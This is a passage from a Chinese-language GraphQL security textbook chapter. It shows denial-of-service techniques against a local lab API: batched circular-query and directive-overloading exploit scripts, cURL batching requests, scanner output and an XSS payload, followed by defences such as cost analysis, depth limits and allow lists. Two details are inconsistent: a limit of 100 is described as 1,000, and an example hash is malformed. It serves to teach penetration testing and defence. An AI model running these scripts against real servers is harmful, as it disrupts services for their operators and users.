  for t in threads:
    t.join()
```

列表 5-11：利用指令重载漏洞的攻击代码

攻击代码从命令行接收两个参数，一个用于识别目标 API，另一个用于指定在攻击过程中将塞入查询中的指令数量。作为 `start_attack` 函数的一部分，我们将 `dos` 指令乘以提供的指令数量。然后，我们构建一个 GraphQL 查询，使用恶意载荷，并创建 300 个线程，每个线程并行运行 `start_attack` 函数。通过使用无限的 `while` 循环，这会使服务器资源在攻击运行期间保持忙碌。

## 对象限制覆盖

GraphQL 服务器可以默认实现对返回给客户端的数据量的限制。这对于返回数组的字段尤为重要。例如，回想一下，在 DVGA 中，`pastes` 查询返回一个粘贴对象数组：

```
type Query {
  pastes: [PasteObject]!
}
```

感叹号表示 `pastes` 是不可为空的，因此数组必须包含零个或多个项目。除非查询被显式限制，否则 GraphQL 会返回所有 `pastes` 对象。如果数据库中有 10,000 个对象，例如，GraphQL 可能会返回所有 10,000 个对象。

返回包含 10,000 个对象的响应对于服务器（和客户端）来说是大量数据。服务器可以实现逻辑来限制返回对象的数量，限制为更少的数量，比如 100。例如，服务器可能会按创建时间对对象进行排序，并只返回最新的粘贴。这种过滤可以在数据库层、GraphQL 层，或两者同时进行。

一些 GraphQL 应用可能允许客户端通过传递特殊参数（如 `limit`）来覆盖服务器端的对象限制，正如这个例子所示。继续在 Altair 中运行这个查询：

```
query {
   pastes(limit:100000, public: true) {
     content
   }
}
```

执行这个查询时，GraphQL 可能会在后台将其转换为 SQL 查询，如下所示：

```
SELECT content FROM pastes WHERE public = true LIMIT 100000
```

在像 DVGA 这样的规模较小的数据库中，这不会造成太大损害。然而，在非常大的数据库中，控制服务器返回的行数可能会非常强大，并且可能让我们执行数据库级别的 DoS 攻击。

如果启用了自省（introspection），GraphQL 将在你输入时自动完成参数，使你可以轻松发现查询所支持的参数。如果自省被禁用，可以尝试常见的关键字，如`limit`、`offset`、`first`、`after`、`last`、`max`和`total`。这些关键字通常与*API 分页*相关，这是控制 HTTP 响应中返回数据量的一种方法。分页将大型数据集划分为更小的部分，从而使客户端能够按块请求和接收数据。

测试服务器允许客户端请求多少对象是值得的。能够从服务器请求任意数量的记录可能会成为应用程序中的另一个拒绝服务（DoS）向量。

## 基于数组的查询批量处理

现在我们将探索一个功能，它非常方便地让我们扩大到目前为止你所学到的攻击。*查询批量处理*是将多个查询分组并并行发送到 GraphQL API 的任何方法。别名就是查询批量处理的一种形式。

尽管别名很有用，但它们有一个明显的缺点，因为它们只能批量处理相同操作根类型的查询。例如，你不能将变更（mutation）和查询（query）一起使用别名。*基于数组的批量处理*技术使我们可以混合查询和变更。然而，数组并不是规范的一部分，因此在所有渗透测试中可能无法使用。

### 理解基于数组的查询批量处理是如何工作的

基于数组的查询批量处理是一种功能，允许客户端将多个任何根类型的 GraphQL 查询以数组的形式作为 JSON 负载的一部分发送。假设我们想多次发送一个查询并多次收到相同的响应。使用基于数组的查询批量处理，我们可以通过基本上复制这个查询并将副本作为元素添加到数组中，轻松做到这一点。以下是一个伪查询示例：

```
[
  query {
   ipAddr
   title
   content
  }
  query {
   ipAddr
   title
 content
  }
]
```

当 GraphQL 从客户端接收到一组查询时，它会按顺序处理这些查询，并且在最后一个数组元素处理并解决之前不会返回响应。一旦所有查询解决，它将返回一个响应，其中包含所有查询响应的数组，并以单个 HTTP 响应返回。

你可能此刻就已经产生了黑客直觉，因为这里存在明显的风险。假设客户端将发送一个合理数量的查询在数组中。但是，如果客户端在一个数组中发送了成千上万的查询会发生什么呢？让我们来看看。剧透：会发生不好的事情。

与别名类似，识别基于数组的批量查询滥用可能很困难，因为安全分析员在日志中看到的只是一个单独的 HTTP 请求。这可能不会立刻显现为恶意模式。因此，这种技术可能会绕过传统的速率限制控制，这些控制可能会限制客户端每秒（RPS）或每分钟（RPM）的请求数。

在本章的最后，我们将讨论应用程序可以实施的一些潜在缓解措施，以应对批量查询。

### 测试基于数组的批量查询

像 Altair、GraphQL Playground 和 GraphiQL Explorer 这样的 GraphQL IDE 不支持从界面直接进行基于数组的查询。因此，为了测试 DVGA 是否启用了基于数组的批量查询，我们需要使用 HTTP 客户端，如 cURL，或者使用脚本语言，如 Python。在我们的实验中，我们将展示如何使用这两种方法。

#### 使用 cURL

列表 5-12 中的命令使用 cURL 发送一个查询数组。

```
# curl http://localhost:5013/graphql -H "Content-Type: application/json"
**-d '[{"query":"query {systemHealth}"},{"query":"query {systemHealth}"}]'**

[
  {"data":{"systemHealth":"System Load: 0.03  \n"}},
  {"data":{"systemHealth":"System Load: 0.03  \n"}}
]
```

列表 5-12：使用 cURL 的基于数组的批量查询

在这个 cURL 命令中，我们使用 `-d` 标志向服务器发送一个包含 GraphQL 查询的数组。这个数组使用方括号 `[]` 定义，包含两个相似的 GraphQL 查询。在每个查询中，我们使用 `systemHealth` 对象。GraphQL 服务器会返回两个单独的响应。

如果 GraphQL 服务器支持基于数组的批量查询，发送一个包含两个 GraphQL 查询的数组将返回相同数量的查询响应。你可以通过响应中的 `data` JSON 字段判断是否是这种情况。当使用 `-d` 标志时，cURL 在后台使用 HTTP POST 方法。

#### 使用 Python

可以使用 Python 执行相同的查询，如 列表 5-13 所示。

```
import requests

queries = [
  {"query":"query {systemHealth}"},
  {"query":"query {systemHealth}"}
]

r = requests.post('http://localhost:5013/graphql', json=queries)

print(r.json())
```

列表 5-13：使用 Python 的基于数组的批量查询

我们声明一个包含两个 `systemHealth` 查询的 `queries` 数组。然后，我们将它们批量发送到 DVGA，并打印响应。这应返回一个包含两个元素的数组，每个元素都是对单个查询的响应。你可以在 GitHub 仓库中的 [`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/array_based_batch_query.py`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/array_based_batch_query.py) 找到这段代码。

将文件保存到桌面并运行以下命令：

```
# cd ~/Desktop
# python3 array_based_batch_query.py

[
   {'data': {'systemHealth': 'System Load: 1.49\n'}},
   {'data': {'systemHealth': 'System Load: 1.49\n'}}
]
```

不支持基于数组批量查询的 GraphQL 服务器可能会抛出 HTML 错误，因为它们没有实现处理数组有效负载的逻辑。支持数组但已禁用它们的服务器可能会返回如下错误：

```
{'errors': [{'message': 'Batch GraphQL requests are not enabled.'}]}
```

接下来，我们将探讨如何通过结合循环查询和基于数组的批量查询来执行 DoS 攻击。

### 链接循环查询和基于数组的批量查询

使用带有基于数组的批量查询的循环查询可能会对 GraphQL 服务器造成严重影响，甚至可能使其瘫痪。考虑 列表 5-14 中的循环查询。

```
query {
  pastes {      # level 1
    owner {     # level 2
      pastes {  # level 3
        owner { # level 4
          name  # level 5
        }
      }
    }
  }
}
```

列表 5-14：一个循环查询

这个递归查询的深度为五。单独来看，它可能不足以摧毁目标服务器，但我们可以修改它，使其深度更大。每一层都会创建一个额外的节点，服务器需要处理和解析这些节点，从而消耗更多的服务器资源。

为了实验循环查询，我们为你的黑客工具库编写了一个自定义的漏洞利用脚本。这个漏洞利用脚本可以通过让你指定应执行的循环次数来动态地扩展其循环性。该查询还能够使用数组批量执行查询。以下代码片段来自[`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/array_based_circular_queries.py`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/array_based_circular_queries.py)：

```
ARRAY_LENGTH = 5
FIELD_REPEAT = 10

query = {"query":"query {"}
field_1_name = 'pastes'
field_2_name = 'owner'

count = 0
for _ in range(FIELD_REPEAT):
    count += 1
    closing_braces = '} ' * FIELD_REPEAT * 2  + '}'
    payload = "{0} {{ {1} {{ ".format(field_1_name, field_2_name)
    query["query"] += payload

    if count == FIELD_REPEAT:
      query["query"] += '__typename' + closing_braces
`--snip--`
queries = []
for _ in range(ARRAY_LENGTH):
  queries.append(query)

r = requests.post('http://localhost:5013/graphql', json=queries)

print(r.json())
```

这段代码基于列表 5-14 中的查询，动态生成循环查询并根据两个主要的脚本输入值：`ARRAY_LENGTH`和`FIELD_REPEAT`，将其添加到数组中。`ARRAY_LENGTH`表示要组合在一起的查询数。值为`5`意味着数组将包含五个查询。`FIELD_REPEAT`表示脚本将循环添加多少次字段（`pastes`和`owner`）到查询中。

然后，脚本使用`for`循环根据`FIELD_REPEAT`的值构建查询，并将其赋值给`query`变量。我们初始化一个空数组`queries`，并运行另一个`for`循环，将我们构建的查询添加到`queries`数组中。简单来说，我们构建一个循环查询，将其添加到数组中，并根据预定义的值发送给目标。

我们鼓励你在实验室中运行这个脚本，看看它是如何工作的！将脚本下载到你的实验室环境中，并在运行前设置可执行权限（`+x`）：

```
# python3 array_based_circular_queries.py

Query: query {pastes { owner { `...` } } }
Query Repeated: 10 times
Query Depth: 21 levels
Array Length: 5 elements
```

该脚本将输出查询及其相关信息，例如字段重复的次数、查询的深度级别以及发送到服务器的数组长度。你可以修改`FIELD_REPEAT`和`ARRAY_LENGTH`，观察通过动态增长查询和数组对服务器响应速度的影响。

这里没有什么神奇的数字；你需要逐步增加字段的数量，直到目标服务器变得明显更慢。根据我们的实验室实验，将`FIELD_REPEAT`设置为至少`500`应该会导致 DVGA 崩溃，并出现段错误。在这种情况下，按照第二章的实验室设置指南重新启动它。

### 使用 BatchQL 检测查询批量处理

某些 GraphQL 工具尝试检测目标 GraphQL 服务器是否支持批量查询。例如，BatchQL 是一个小型 Python 工具，它扫描 GraphQL 的弱点。通过发送预检请求并观察服务器返回的错误，它能够检测基于别名的批量处理和基于数组的批量处理。以下代码展示了它用来检测基于数组的批量处理的逻辑：

```
repeated_query_list = "query { assetnote: Query { hacktheplanet } }"
repeated_query_dict = [{"query": repeated_query_list}, {"query":  repeated_query_list}]
repeated_query_success = False
try:
  r = requests.post(args.endpoint, headers=header_dict,
      json=repeated_query_dict, proxies=proxies, verify=False)
  error_count = len(r.json())
  `--snip--`
  if error_count > 1:
    print("Query JSON list based batching: GraphQL batching is possible...
          preflight request was successful.")
```

在这个示例中，BatchQL 通过使用字段`hacktheplanet`来创建一个 GraphQL 查询。然后，它创建一个包含两个查询副本的数组。BatchQL 将该数组发送到目标服务器，并计算响应中返回的错误数量。如果错误数量大于一，说明服务器处理了两个查询。

它查看返回错误的数量的原因是查询包含字段`hacktheplanet`，这个字段很可能在任何真实的目标上都不存在。因此，GraphQL 会对每个无法处理的查询返回错误。BatchQL 对其别名批处理的检测也使用相同的错误计数逻辑。

现在让我们尝试在 DVGA 上运行 BatchQL，看看我们会得到什么样的输出。使用`-e`标志来指定 GraphQL 端点：

```
# cd BatchQL
# python3 batch.py -e http://localhost:5013/graphql

CSRF GET based successful. Please confirm that this is a valid issue.
CSRF POST based successful. Please confirm that this is a valid issue.
Query name based batching: GraphQL batching is possible... preflight request was successful.
Query JSON list based batching: GraphQL batching is possible...preflight request was successful.
```

BatchQL 能够检测到基于数组的批处理和基于别名的批处理都可用。

## 使用 GraphQL Cop 执行 DoS 审计

*GraphQL Cop* 是一个基于 Python 的安全审计工具，能够发现 GraphQL 应用中的 DoS 和信息泄露弱点。它可以识别本章涵盖的大多数 DoS 类别。让我们将这个工具应用于 DVGA，看看我们能在不费力气的情况下快速发现哪些漏洞。

GraphQL Cop 需要非常少的参数来完成其工作。要执行审计，请使用以下命令运行它：

```
# cd ~/graphql-cop
# python3 graphql-cop.py -t http://localhost:5013/graphql

                    GraphQL Cop
           Security Auditor for GraphQL
             Dolev Farhi & Nick Aleks

[HIGH] Alias Overloading - Alias Overloading with 100+ aliases is allowed (Denial of Service)
[HIGH] Batch Queries - Batch queries allowed with 10+ simultaneous queries (Denial of Service)
[HIGH] Field Duplication - Queries are allowed with 500 of the same repeated field
       (Denial of Service)
[HIGH] Directive Overloading - Multiple duplicated directives allowed in a query
       (Denial of Service)
```

如你所见，我们得到了包含每个漏洞描述及其预定义严重性的输出。该工具能够识别 DVGA 中的四个 DoS 向量。如果在渗透测试中需要通过编程方式解析这些信息，你可能需要更适合脚本化的输出。为此，请使用`-o` `json`标志。

## GraphQL 中的拒绝服务防御

我们已经探索了执行 DoS 攻击针对 GraphQL 目标的各种技术。虽然大多数 GraphQL 实现默认不包含全面的 DoS 缓解（有一些例外），但我们讨论的这些攻击是可以防御的。

### 查询成本分析

复杂的查询对服务器的处理成本较高，特别是当许多查询同时发送时。在执行渗透测试时，可能会遇到一个实现了*成本分析器*的 GraphQL 服务器。这个术语指的是任何根据处理成本（例如 CPU、输入/输出（I/O）、内存和网络资源消耗）为 GraphQL 字段分配数值的系统。

查询成本分析可以通过多种方式实现，例如使用静态分析在执行前评估查询结构，或在查询完全解析后观察查询响应。

#### 静态地为查询分配成本

更常见的成本分析形式是*静态分析*。例如，考虑以下查询：

```
query {
  pastes {
    title
    content
    userAgent
    ipAddr
    owner {
      name
    }
  }
}
```

我们使用`pastes`顶级字段并指定一些字段，如`title`、`content`和`owner`。

使用静态分析时，可以通过不同的方式为查询分配成本。一种常见的方法是使用专用的模式指令来为每个字段或每种对象类型指定值。以下示例模式展示了如何通过使用模式指令来实现成本分配：

```
directive @cost(
  complexity: Int = 1
) on FIELD_DEFINITION | OBJECT

type PasteObject {
  title: String @cost(complexity: 1)
  content: String @cost(complexity: 1)
  userAgent: String @cost(complexity: 5)
  ipAddr: String @cost(complexity: 5)
}
```

这里，一个特殊的`cost`指令接受一个`complexity`参数，而`complexity`参数接受一个整数值。如果没有为`complexity`参数提供值，它默认是`1`。在模式中，`PasteObject`中的字段根据其解析时的资源消耗情况分配了某些成本值。（可以想象，一个字段需要服务器执行上游检查以访问多个第三方服务，而另一个字段则可以通过直接读取本地数据库来解析。）

基于这个模式定义，我们可以像下面这样在查询中添加指令：

```
query {
  pastes {
    title     # cost: 1
    content   # cost: 1
    userAgent # cost: 5
    ipAddr    # cost: 5
  }
}
```

这个查询的总成本是`12`。知道总成本可以让 GraphQL 服务器决定是否接受查询，或者因为成本过高而拒绝查询。

许多静态成本分配库不会将成本信息持久化到数据库或缓存中。因此，实际上，每个查询都需要单独评估。为了说明未能追踪成本使用的风险，请参阅图 5-6 中的示意图。



图 5-6：无状态成本分析的风险

在这里，GraphQL 服务器已将最大允许成本（`MAX_COST`）设置为`200`。在这个例子中，成本为 200 或以下的查询会被接受，这意味着如果客户端发送多个并行查询，每个查询的成本都为 200，那么所有查询都会被接受。如果应用程序的后端无法或没有准备好处理如此高成本的并行查询，这可能会带来风险。想象一下，攻击者使用最大允许的成本发送成千上万的请求；如果限制过于宽松，这可能会导致应用程序崩溃。

#### 动态分配成本给服务器响应

成本分析也可以在查询完全解析后的服务器响应上执行。服务器必须首先处理查询，才能了解其成本。然而，查看实际解析后的查询可以提供比静态方法更准确的成本估算。

动态方法相对于静态方法的优势在于，动态成本分配考虑了服务器返回的响应复杂度。想象一下，一个客户端请求一个字段，而服务器返回一个包含 1,000 个元素的数组。在这种情况下，响应所指示的复杂度是仅通过查询本身无法推断出来的。

#### 使用基于积分的速率限制

GraphQL 服务器可以设计为在客户端会话期间跟踪查询的成本。跟踪这些信息允许服务器设置每小时或每日的配额限制，并在超过某个限制后拒绝查询，作为基于积分的系统的一部分。例如，服务器可以为每个用户会话或每个来源 IP 地址设置每小时积分配额（如 1,000）。如果一个查询的静态成本是 200，那么客户端每小时最多可以发起五个这样的查询。若要重新查询，他们必须等到积分配额更新。

然而，为了使此机制生效，服务器必须在数据库中跟踪并存储客户端的 API 使用数据。否则，基于成本的查询限制将必须是无状态的，这在 GraphQL API 中很常见。

#### 在响应中发现查询的成本

正如你所学到的，有几种方法可以在 GraphQL API 中实现成本分析控制。在某些实现中，你可能会在查询的响应中看到与成本相关的元数据。考虑以下 GraphQL 响应示例，它使用 `extensions` 响应字段向客户端提供与成本相关的信息：

```
{
  "data": {
`--snip--`
  },
  "extensions": {
    "cost": {
      "credits_total": 1000,
 "credits_remaining": 990,
    }
  }
}
```

`extensions` 字段用于向客户端返回一些元数据。这些元数据通常与查询追踪、查询成本计算或其他调试信息相关。在此示例中，`credits_total` 是可用积分的总数，`credits_remaining` 是当前剩余的积分数量。

你可能会问，为什么 GraphQL 服务器首先会与客户端共享这些信息。客户端可以利用这些信息判断何时查询可能会被服务器限流并可能失败。这有助于客户端构建更好的错误处理逻辑。

当然，成本信息的可用性对于黑客也是有价值的。如果我们有办法知道什么时候我们的查询会被服务器接受（例如每小时积分的情况），那么我们就能判断何时在积分重新可用时发起新攻击，而不是反复发送将被阻止的请求。

### 查询深度限制

本章早些时候，我们讨论了循环查询以及 GraphQL 中的递归查询如何使服务器资源枯竭。为了保护 GraphQL 服务器免受递归查询的影响，应用程序可以设置查询深度限制。例如，将 `max_depth` 配置设置为 `10` 的值将允许最多 10 层深度。任何超出允许深度的查询都会被拒绝。

一些更成熟的 GraphQL 实现支持开箱即用的深度分析，或者通过利用专门为此目的编写的外部库。让我们来看一下如何在 graphql-ruby（Ruby）和 Graphene（Python）中实现查询深度限制。

在 graphql-ruby 中，可以在 `MySchema` 类中设置最大深度限制：

```
class MySchema < GraphQL::Schema
 `--snip--`
  **max_depth 10**
end
```

在 Graphene 中，可以通过以下方式设置最大深度限制：

```
schema = Schema(query=MyQuery)

validation_errors = validate(
    schema=schema.graphql_schema,
    document_ast=parse('THE QUERY'),
    rules=(
        **depth_limit_validator(**
 **max_depth=20**
 **),**
    )
)
```

深度通常是按查询计算的。如果攻击者同时发送多个递归查询，这仍然可能对服务器造成严重影响。

### 别名和基于数组的批处理限制

由于 GraphQL 别名是 GraphQL 规范的一部分，开发人员不能轻易禁用它们。防止别名被滥用需要自定义中间件代码来解析传入的查询，计算指定的别名数量，并在数量达到足够高的程度时拒绝请求，因为这可能会导致处理时的危险。要使 GraphQL 应用程序中存在这种控制，开发人员首先需要意识到别名可能带来的安全隐患。

与别名不同，基于数组的批处理不是规范文档的一部分。它通常需要安装额外的软件包或在代码中启用该功能。让我们看看在 Graphene 中禁用基于数组的批处理是什么样的：

```
app.add_url_rule('/graphql', view_func=GraphQLView.as_view(
  'graphql',
  schema=schema,
 `--snip--`
  **batch=True**
))
```

`batch` 参数接受布尔值 `True` 或 `False`。如果将其切换为 `False`，Graphene 将拒绝处理任何数组。这是 GraphQL 服务器实现本身支持禁用批处理的一个例子，无需自定义代码。

在渗透测试中，使用诸如 Graphw00f 之类的 GraphQL 指纹识别工具来识别目标服务器的实现。然后，你可以使用我们整理的 [GraphQL 威胁矩阵项目](https://github.com/nicholasaleks/graphql-threat-matrix) 来识别是否有像基于数组的批处理等功能。如果存在，了解它们是否可以禁用。这些见解在渗透测试报告中作为修复部分记录将非常有用。

### 字段重复限制

默认情况下，GraphQL 会解析查询中指定的任何字段，即使它被多次指定。尽管如此，我们可以通过多种方式来减轻字段重复攻击的风险。

虽然它没有直接解决字段重复问题，但查询成本分析可以保护 GraphQL 应用程序，在单个查询中指定大量字段时（无论它们是否重复）。成本分析是防范任何涉及在单个查询中指定许多字段的攻击的有效措施。

另一种保护形式是使用中间件安全分析器来检查传入的查询，并在有字段重复出现多次时采取措施。应用程序可能会选择实施多种操作，例如完全拒绝查询或通过合并重复字段来*规范化*查询，从而消除重复。这基本上是将原始查询重构为更安全的版本。目前，GraphQL 中没有任何功能执行此操作。应用程序开发人员需要自行开发中间件，或使用第三方安全工具来代替。

应用程序防御字段重复的另一种方法是计算查询的字段“高度”。请参考图 5-7 中的查询。



图 5-7：一个示例 GraphQL 查询的高度

此查询请求`owner`字段，然后是`owner`字段的`id`（一次）和`name`（四次）。如您所见，总高度为 5。应用程序可能会限制任何超过某个允许高度的查询。请记住，默认情况下，GraphQL 并未实现这种类型的控制。

### 返回记录数量的限制

当客户端请求数组字段时，GraphQL 服务器可以限制它们返回的对象数量。为此，它们可以在服务器端设置最大返回项数，并防止客户端覆盖该设置。以下是如何在 Graphene 中实现这一点的示例：

```
def resolve_pastes(self, info, public=False):
    query = PasteObject.get_query(info)
    return query.filter_by(public=public, burn=False).order_by(Paste.id.desc())**.limit(100)**
```

这个示例解析器函数是用于`pastes`查询的。该限制确保无论数据库中存在多少个 paste，返回的最大 paste 数量为 1,000。

另一种限制响应中返回记录数量的方法是引入 API 分页，它控制客户端在单个请求中可以检索的记录数。

### 查询允许列表

应用程序可能实施的另一种防御技术是允许列表方法。*允许列表*的概念很简单：你定义应用程序可以接受的 GraphQL 查询，并拒绝任何不在列表中的查询。你可以将其视为一个可信查询的安全列表。

允许列表方法通常比使用拒绝列表更安全，因为拒绝列表更容易出错。恶意负载可以通过多种方式构造，如果在构建拒绝列表时未考虑到所有这些变化，攻击者可能会找到绕过它的方式。

查询允许列表在 GraphQL 服务器实现中通常不存在，也很少有外部库实现此功能。为了利用此功能，GraphQL 应用开发人员必须寻找与其实现兼容的库，或从头开始创建一个。

### 自动持久化查询

查询允许列表通常与一种名为*自动持久化查询*（*APQ*）的缓存机制一起使用，用于提升 GraphQL 查询的性能。GraphQL 服务器通过实现 APQ，可以接受代表这些查询的哈希值，而不是使用正常的 GraphQL 查询结构。

在 GraphQL 客户端和服务器的 APQ 交互中，客户端首先尝试发送查询的哈希值（例如 SHA-256 哈希）。服务器在其缓存中执行哈希查找。如果哈希值不存在，服务器会返回错误。然后客户端可以跟进另一个请求，其中包含原始 GraphQL 查询及其哈希值，该查询会被存储在服务器数据库中。客户端可以在任何后续请求中使用该哈希值，而无需提供完整的查询。哈希值可能如下所示：

```
{
   "persisted_query": {
      "sha256Hash": "5e734424cfdde58851234791dea3811caf8e8b389cc3aw7035044ce91679757bc8"
   }
 }
```

要生成任何查询的 SHA-256 哈希值，您可以使用`sha256sum`命令，如下所示：

```
# echo -n "{query{pastes{owner{id}}}}" | sha256sum

5e734424cfdde58851234791dea3811caf8e8b389cc3aw7035044ce91679757bc8
```

这里的优势在于，哈希算法生成固定长度的值（例如，SHA-256 哈希长度为 64 个字符），无论查询有多大。这消除了客户端通过网络发送包含大查询的 HTTP 请求的需求，从而减少了总带宽消耗。图 5-8 说明了具有 APQ 的 GraphQL 部署的可能外观。



图 5-8：APQ 架构

您可能已经注意到一个弱点。如果客户端是攻击者并强制服务器缓存恶意查询，会怎么样？攻击者能否在随后的查询中使用它？这是一个很好的问题，并且为什么像 APQ 这样的机制应该与白名单函数一起存在。服务器应该在将恶意查询缓存之前拒绝它们，以便只有受信任的查询可以插入缓存中。

APQ 首先设计为缓存机制，但它也可以作为安全控制来保护 GraphQL 服务器免受接受恶意查询的影响。尽管 APQ 尚未被广泛使用，但它受到市场上一些成熟 GraphQL 实现的支持，例如 Apollo GraphQL。您可以参考 GraphQL 威胁矩阵项目，了解哪些实现支持 APQ。

### 超时

*超时* 是另一种防止长时间运行和消耗资源的任务的保护形式。当 GraphQL 服务器遭受大量查询时，可能需要几分钟才能完全满足请求。为了减轻这些情况，服务器可以引入应用程序超时，定义请求完成所需的时间。

一些 GraphQL 实现，如 graphql-ruby，允许通过以下方式设置查询执行超时：

```
class MySchema < GraphQL::Schema
  use GraphQL::Schema::**Timeout, max_seconds: 20**
end
```

然而，并非所有 GraphQL 实现都支持通过此方式设置查询超时。这些 GraphQL 应用程序可以在 Web 服务器层使用超时，如 Nginx 或 Apache，它们支持设置超时。

设置正确的应用程序超时间隔往往是一个棘手的任务；过短的超时配置可能意味着丢弃合法的客户端请求并影响客户端的用户体验，这就是为什么应用程序通常默认设置较高的超时值。Nginx 和 Apache 都将其请求超时值设置在大约 60 秒左右。

超时可以是有效的，但它们不应是 GraphQL 应用程序实施的唯一缓解策略。

### Web 应用程序防火墙

*Web 应用程序防火墙（WAFs）* 对于阻止恶意流量在其到达应用程序之前非常有用。它们允许安全团队通过创建基于各种模式（如 HTTP 负载、URL 或客户端地理位置）的签名和规则来快速响应攻击和漏洞。

WAF 在生产环境中经过多年的战斗测试，保护着 Web 应用和 API（如 REST 和 SOAP），覆盖了许多行业。然而，商业和开源的 WAF 仍在适应 GraphQL 的工作方式，以及攻击者可能如何利用 GraphQL 从事恶意活动，因此 WAF 在保护 GraphQL 应用方面仍存在一些空白。

尽管一些 WAF（Web 应用防火墙）并不“支持 GraphQL”，但它们检查流量的方式仍然可以检测到许多恶意有效载荷。即使恶意载荷嵌入在 GraphQL 查询或突变中，它们仍然能够阻止可疑的有效载荷，如 SQL 注入、操作系统注入、跨站脚本攻击（XSS）等。

请看以下在 GraphQL 查询中的 XSS 示例：

```
mutation {
  changeName(name:"<script>alert(1)</script>") {
      name
  }
}
```

即使是没有原生支持 GraphQL 的 WAF，也很可能识别并拒绝包含常见攻击载荷的请求。此外，WAF 还可以提供其他形式的保护，如限制请求体的大小（以字节限制的形式）来防止 DoS 攻击，或进行限流以减缓 DoS 攻击。

然而，没有 GraphQL 支持的 WAF 将难以防御本章所讲解的许多攻击。例如，WAF 通常不会阻止单个 HTTP 请求，如果它们不包含恶意模式，如危险的 JavaScript 有效载荷（如 XSS）或 SQL 命令（在 SQL 注入的情况下）。尽管我们可以通过使用别名或基于数组的批处理在单个 HTTP 请求中发送成千上万的查询，但没有原生支持 GraphQL 的 WAF 不会理解接受此类请求的危险性。

### 网关代理

GraphQL *网关*将多个 GraphQL 架构合并成一个统一的架构，可以通过将它们拼接在一起，或者通过连接到每个单独的 GraphQL 服务来获取其架构内容。然后，这个架构会在网关层暴露给客户端使用。图 5-9 展示了这种应用部署模型的可能样貌。



图 5-9：一个 GraphQL 网关代理流量到其他服务

GraphQL 网关在安全领域越来越受欢迎，作为一个可以执行策略和进行速率限制的网络瓶颈点。它们通常充当反向代理，将流量转发到其他内部 API 服务器，并且能够管理多个 API 架构。网关还提供如审计功能、架构版本控制、授权控制、七层 DoS（拒绝服务）保护等功能。

## 总结

在本章中，我们讨论了攻击者可能采用的几种方式，通过这些方式向 GraphQL 服务器施加负载，从而实施 DoS 攻击。我们使用了几种专门的 GraphQL 安全工具来测试 DoS 条件，并解析了自定义漏洞，理解它们在背后是如何运作的。你还学习了 GraphQL 中查询批处理是如何工作的，以及如何通过使用数组和别名使 DoS 攻击更具威胁性。最后，我们探讨了 GraphQL 应用程序可以实施的安全防御措施，以保护自己免受 DoS 攻击。
